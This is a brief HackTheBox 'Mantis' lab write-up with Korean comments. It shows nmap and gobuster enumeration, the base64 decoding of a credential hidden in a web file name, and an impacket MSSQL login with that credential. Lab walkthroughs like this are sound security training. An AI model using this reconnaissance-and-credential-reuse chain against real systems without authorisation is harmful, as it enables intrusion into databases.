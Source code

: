 ```yaml
---
layout: post
title: HackTheBox Mantis
subtitle: Tracks Intro to Offshore Mantis WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-22-Mantis/a4ec388428362331d352e0c8197628f3_MD5.jpeg)
## Target - 10.129.104.28
### Nmap
```bash
nmap -sC -sV -Pn -oN Mantis -p- 10.129.104.28
```
![](assets/images/posts/2025-03-22-Mantis/769c3d479a620a851ae7a3b20c848432_MD5.jpeg)

### Web
```bash
# wordlist 선택 잘 해야함.
gobuster dir -u http://10.129.110.72:1337 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

# 접근
http://10.129.110.72:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt

# file name decrypt : 6d2424716c5f53405f504073735730726421
echo -n "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d
```
![](/assets/images/posts/2025-03-22-Mantis/253d3af748f2c0f3266103b94180bd28_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/b38c293fda4d4164f2191b50a7ca303e_MD5.jpeg)

### MSSQL 
```bash
impacket-mssqlclient admin:6d2424716c5f53405f504073735730726421@10.129.110.72 -windows-auth
```

### Info
```txt
domain : htb.local

1337 IIS 7.5
1433 MSSQL / 50255 MSSQL Server
8080 http
```